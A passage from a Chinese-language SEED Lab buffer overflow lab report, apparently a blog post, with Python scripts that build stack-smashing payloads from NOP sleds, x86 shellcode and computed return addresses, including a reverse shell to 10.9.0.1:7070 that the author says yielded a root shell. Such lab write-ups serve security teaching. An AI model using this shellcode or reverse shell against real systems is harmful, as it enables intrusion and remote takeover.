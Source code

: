 ```python
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash	-i >/dev/tcp/10.9.0.1/7070 0<&1 2>&1          *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffd7e8     # Change this number 
offset = 0xffffd7e8 - 0xffffd778 + 4              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

结果成功获取到root权限shell。

![level1-result](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/level1-result.png)

### Task 3：Level-2 Attack  

buffer大小未知，可以通过喷射法来填充大量地址。

向server2发送nc连接请求，获取到buffer地址

![server2-echo hello](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/server2-echo hello.png)

构造python脚本：

```python
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
```